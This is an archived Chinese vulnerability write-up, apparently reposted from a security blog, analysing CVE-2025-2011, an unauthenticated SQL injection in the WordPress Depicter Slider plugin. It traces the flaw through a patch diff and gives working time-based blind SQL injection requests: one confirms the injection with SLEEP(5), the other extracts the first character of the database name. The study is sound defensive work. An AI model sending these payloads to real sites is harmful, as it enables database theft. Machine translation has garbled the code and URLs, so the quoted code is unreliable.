






# CVE-2025-2011 SQL注入

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：插件<=3.6.1；文章称未认证 AJAX 可达，3.6.2修复
- 证据范围：从 LeadsAjaxController 到 appendRawWhere 的链条可辨认，但机器翻译破坏代码、URL，不能作为可复制原始代码

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 误归 PostgreSQL，正文是 WordPress 插件且示例使用 MySQL
- wp-admin/admin-ajax.php 被翻译成 /wp-管理员/管理员-AJAX.php
- PHP function、变量/方法等被翻译，代码围栏与换行丢失
- CVSS 9.3 标高而未给出评分版本/向量
- 未认证请求保留 Cookie 占位，需区分真正前提与模板

### 操作风险与资料使用

- 含资源消耗、延时或崩溃验证：可能影响服务可用性；限制请求次数、并发与超时，保留无攻击负载的对照结果。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

原创 匆匆过客
                    匆匆过客  天启攻防实验室   2026-02-24 06:31  
  
   
  
  
更多实战精彩：  
  
  
  
  
该漏洞存在于   
Depicter Slider  
 WordPress 插件   
3.6.2  
 之前的版本中。这可能允许攻击者直接与您的数据库交互，潜在地导致数据窃取或篡改。  
  
·  
  
CVE 编号  
:   
CVE-2025-2011  
  
·  
  
产品  
:   
WordPress Depicter Slider 插件  
  
·  
  
漏洞类型  
: SQL注入  
  
·  
  
受影响版本  
: <= 3.6.1  
  
·  
  
CVSS 严重性  
: 高 (9.3)  
  
·  
  
所需权限  
: 未认证  
## 环境要求  
  
·  
  
本地 WordPress 与调试  
:   
Local WordPress and 调试  
.  
  
·  
  
Depicter Slider  
: v3.6.1 (存在漏洞) 和 v3.6.2 (已修复)  
  
·  
  
差异对比工具  
:   
meld  
 或任何其他用于可视化版本间差异的比较工具  
## 分析  
  
根本原因在于应用程序将来自   
GET  
 请求的数据直接注入到 SQL 查询中，而没有进行适当的清理或转义。  
### 补丁差异分析  
  
使用任何差异对比工具来比较存在漏洞和已修复的版本。                
  
一个显著的差异出现在   
app/src/Controllers/AJAX/LeadsAjaxController.php  
 文件中。  
  
index  
、  
list  
 和   
export  
 是   
LeadsAjaxController  
 类中的三个关键函数。  
  
public  
 函数 index(RequestInterface $请求,   
$view  
)  
  
{  
  
      
$args  
  
=  
 [  
  
          
's'  
           
=> Sanitize::textfield($请求->查询(  
's',   
''  
)),                
  
          
// other logic  
  
      
]  
;  
  
      
$响应  
     
=  
 \Depicter::lead()->get(  
$args  
)  
;  
  
      
$statusCode  
  
=  
  
isset  
($响应[  
'errors'  
])   
?  
  
400  
  
:  
  
200  
;  
  
      
return  
 \Depicter::  
JSON  
($响应)->withStatus(  
$statusCode  
)  
;  
  
}  
  
public  
 函数   
list  
(RequestInterface $请求,   
$view  
)  
  
{  
  
      
$args  
  
=  
 [  
  
          
's'  
                  
=> Sanitize::textfield($请求->查询(  
's',   
''  
)),                
  
          
// other logic  
  
      
]  
;  
  
      
$响应   
=  
 \Depicter::leadRepository()->getResults(  
$args  
)  
;  
  
      
return  
 \Depicter::  
JSON  
($响应)  
;  
  
}  
  
public  
 函数 export(RequestInterface $请求,   
$view  
)  
  
{  
  
      
$args  
  
=  
 [  
  
          
's'  
                  
=> Sanitize::textfield($请求->查询(  
's',   
''  
)),                
  
          
// other logic  
  
      
]  
;  
  
      
$响应   
=  
 \Depicter::leadRepository()->getResults(  
$args  
)  
;  
  
      
// other logic  
  
      
return  
 \Depicter::  
JSON  
([  
  
          
'errors'  
 => [  
__  
(  
'error occurred during the export process',   
'depicter'  
)]  
  
      
])->withStatus(  
400  
)  
;  
  
}  
  
所有三个函数都通过将   
Sanitize::textfield  
 替换为   
Sanitize::SQL  
 进行了修复，确保   
's'  
 参数被正确清理并进行 SQL 转义。  
  
  
### 工作原理  
  
为了理解   
textfield  
 和   
SQL  
 函数的行为，可以搜索关键词   
函数 textfield  
。由于两者都是从同一个类   
Sanitize  
 中调用的，它们很可能位于同一个文件中。  
  
如果您在   
VSCode  
 中安装了   
PHP Intelephense 扩展  
，您可以使用 Ctrl + 点击 直接导航到函数定义。  
  
  
  
textfield  
 返回由   
sanitize_text_field  
 清理过的数据，而   
SQL  
 则使用   
esc_sql()  
 返回经过 SQL 转义的数据。  
  
public  
  
static  
 函数   
SQL  
(   
$input  
 )  
  
{  
  
      
return  
 esc_sql(   
$input  
 )  
;  
  
}  
  
由于这是一个   
未认证  
 漏洞，我们需要确定这三个函数中哪些是在没有任何认证机制的情况下被调用的。一旦确认，我们可以深入追踪逻辑以验证潜在的 SQL注入 利用。  
  
直接搜索像   
index  
、  
list  
 或   
export  
 这样的函数名可能会得到太多结果。相反，搜索类名   
LeadsAjaxController  
，因为所有函数都必须通过它来调用。  
  
  
  
👉   
LeadsAjaxController  
 用于   
AJAX 路由注册  
。当请求发送到   
/wp-管理员/管理员-AJAX.php?action=action_here¶m1=...  
 时，WordPress 通过   
handle('LeadsAjaxController@函数')  
 将请求映射到相应的方法。  
  
所有三个函数都使用   
GET  
 方法调用，但   
export  
 包含一个   
跨站请求伪造-API  
 中间件，因此我们可以排除它。我们将只关注   
index  
 和   
list  
。  
  
分析   
index  
 时，我们看到   
$响应  
 调用了   
\Depicter::lead()->get($args)  
，而后者内部又调用了   
\Depicter::leadRepository()->getResults($args)  
。这与   
list  
 的逻辑相同，因此   
list  
 是我们的主要追踪点。  
  
public  
 函数   
list  
(RequestInterface $请求,   
$view  
)  
  
{  
  
      
$args  
  
=  
 [  
  
          
's'  
                  
=> Sanitize::textfield($请求->查询(  
's',   
''  
)),                
  
          
'ids'  
                
=> Sanitize::textfield($请求->查询(  
'ids',   
''  
)),                
  
          
'sources'  
            
=> Sanitize::textfield($请求->查询(  
'sources',   
''  
)),                
  
          
'dateStart'  
          
=> Sanitize::textfield($请求->查询(  
'dateStart',   
''  
)),                
  
          
'dateEnd'  
            
=> Sanitize::textfield($请求->查询(  
'dateEnd',   
''  
)),                
  
          
'order'  
              
=> Sanitize::textfield($请求->查询(  
'order',   
'DESC'  
)),                
  
          
'orderBy'  
            
=> Sanitize::textfield($请求->查询(  
'orderBy',   
'id'  
)),                
  
          
'page'  
               
=> Sanitize::  
int  
($请求->查询(  
'page',   
1  
)),                
  
          
'perPage'  
            
=> Sanitize::  
int  
($请求->查询(  
'perpage',   
10  
)),                
  
          
'columns'  
            
=> Sanitize::textfield($请求->查询(  
'columns',   
''  
)),                
  
          
'includeFields'  
      
=> Sanitize::textfield($请求->查询(  
'includeFields',   
false  
)),                
  
          
'skipCustomFields'  
 => Sanitize::textfield($请求->查询(  
'skipCustomFields',   
false  
))  
  
      
]  
;  
  
      
$响应   
=  
 \Depicter::leadRepository()->getResults(  
$args  
)  
;  
  
      
return  
 \Depicter::  
JSON  
($响应)  
;  
  
}  
  
为了理解   
getResults  
 如何执行其查询，可以搜索   
函数 getResults  
 或在   
getResults  
 上使用 Ctrl + 点击。  
  
  
  
👉 出现了两个   
getResults  
 函数。根据类名   
LeadRepository  
 和   
leadRepository()  
 函数，很可能   
Depicter::leadRepository()  
 返回   
LeadRepository  
 的一个   
实例  
。可以通过检查参数数量来确认正确的函数。  
  
if  
 条件表明，当   
includeFields  
 为空时，会调用   
getLeadsResults  
。让我们看看它：  
  
protected  
 函数 getLeadsResults(   
$args  
 ){  
  
      
// Purpose of joining tables is being able to search in leadField values as well  
  
      
$leadTable  
  
=  
  
$this  
->lead()->getTable()  
;  
  
      
$leads  
  
=  
 Lead::  
new  
()->select(  
  
          
"  
{  
$leadTable  
}  
.id",                
  
          
"  
{  
$leadTable  
}  
.source_id",                
  
          
"  
{  
$leadTable  
}  
.content_id",                
  
          
"  
{  
$leadTable  
}  
.content_name",                
  
          
"  
{  
$leadTable  
}  
.created_at",                
  
          
"lf.name as fieldName",                
  
          
"lf.value as fieldValue"  
  
      
)->  
join  
(   
"  
{  
$this  
->leadField()->getTable()}  
 AS lf",   
"  
{  
$leadTable  
}  
.id",   
"=",   
"lf.lead_id"  
 )  
;  
  
      
// other logic  
  
      
if  
(   
!  
  
empty  
(   
$args  
[  
's'  
] ) ){  
  
          
$search  
  
=  
  
"'%"  
.  
  
$args  
[  
's'  
]   
.  
"%'"  
;  
  
          
$leads  
->appendRawWhere(  
'AND',   
"( lf.value like   
{  
$search  
}  
 OR   
{  
$leadTable  
}  
.content_name like   
{  
$search  
}  
 )"  
)  
;  
  
      
}  
  
      
$results  
  
=  
  
$this  
->paginate(   
$leads,   
$args  
 )  
;  
  
}  
  
在这里，  
s  
 参数（补丁所保护的对象）使用   
appendRawWhere  
 直接拼接到查询中。                
  
结果查询的一部分将是：  
  
AND  
 (lf.  
value  
  
like  
  
'%s_here%'  
  
OR  
 leadtable.content_name   
like  
  
'%s_here%'  
)  
  
👉 因此，当向   
/wp-管理员/管理员-AJAX.php  
 发送带有以下参数的   
GET 请求  
 时：  
  
action=depicter-lead-index&s=payload_here  
  
·  
  
list  
 被调用，仅提供了   
s  
 参数。  
  
·  
  
getResults  
 接收   
$args  
。  
  
·  
  
条件   
if( ! $args['includeFields'] )  
 触发   
getLeadsResults  
。  
  
·  
  
存在漏洞的 SQL 查询被执行，导致 SQL注入。  
## 漏洞利用  
### 检测 SQL 注入  
  
发送一个带有基于时间的 SQL 注入 有效载荷的   
GET 请求  
：  
  
```http
GET /wp-管理员/管理员-AJAX.php?action=depicter-lead-list&s=999%25'+AND+(SELECT+1+FROM+(SELECT+SLEEP(5))a))+--+-+ HTTP/1.1  
  
Host: localhost  
  
...  
  
Cookie: cookie_here
```
  
  
解码后的有效载荷：  
  
999  
%  
' AND (SELECT 1 FROM (SELECT SLEEP(5))a)) -- -  
  
这使得查询的一部分变为：  
  
AND  
 (lf.  
value  
  
like  
  
'999%'  
  
AND  
 (  
SELECT  
  
1  
  
FROM  
 (  
SELECT  
 SLEEP(  
5  
))a))   
-- ' OR leadtable.content_name like '999%' AND (SELECT 1 FROM (SELECT SLEEP(5))a)) #')  
  
  
  
👉 延迟的响应确认了注入成功。  
  
FROM 子句中的子查询  
：子查询充当一个临时表，强制 MySQL 首先执行它，从而延迟主查询的执行。  
### 获取数据库名称的第一个字母  
  
要完全转储数据，我们必须首先确认可以提取数据库名称的至少一个字符。  
  
发送一个包含以下   
SQL 注入 有效载荷  
 的请求：  
  
```http
GET /wp-管理员/管理员-AJAX.php?action=depicter-lead-list&s=999%25'+AND+(SELECT+1+FROM+(SELECT+IF(SUBSTRING(SCHEMA(),1,1)=0x77,SLEEP(5),1))a))+--+-+ HTTP/1.1  
  
Host: localhost  
  
...  
  
Cookie: cookie_here
```
  
  
SUBSTRING()  
 提取   
数据库名称  
 的第一个字母，如果第一个字符等于   
0x77  
 (  
'w'  
)，则   
IF()  
 触发   
SLEEP(5)  
。  
  
使用十六进制编码 (  
0x77  
) 是因为   
s  
 源自   
GET  
 参数，并且被 WordPress 中的   
magic quotes  
 和   
sanitize_text_field  
 转义。  
  
👉 延迟的响应确认第一个字符确实是   
w  
。  
## 结论  
  
WordPress   
Depicter Slider  
 插件（  
3.6.2  
 之前版本）中的   
CVE-2025-2011  
 漏洞源于未经验证的用户输入被直接注入到 SQL 查询中，从而导致 SQL注入。  
  
该补丁引入了 SQL 转义，确保注入的数据被安全地封装在   
'%...%'  
 字符串内。  
  
关键要点  
：  
  
·  
  
始终验证和清理用户输入。  
  
·  
  
在 WordPress 中处理数据库查询时使用   
$wpdb->prepare()  
。  
  
·  
  
保持插件更新并进行定期安全审计以减少暴露风险。  
## 加入内部技术交流群：  
  
  
##   
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
